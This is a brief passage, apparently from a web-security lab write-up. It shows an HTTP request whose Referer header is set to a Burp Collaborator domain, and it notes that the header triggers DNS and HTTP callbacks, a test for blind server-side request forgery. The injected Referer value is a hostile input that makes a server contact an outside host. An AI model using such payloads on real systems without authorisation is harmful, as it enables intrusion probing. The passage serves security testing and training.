~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /product?productId=1 HTTP/2
...
Referer: http://snjtorvmsesj9itkltcgrqtsfjla92xr.oastify.com
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



There are DNS and HTTP request to the Collaborator domain:


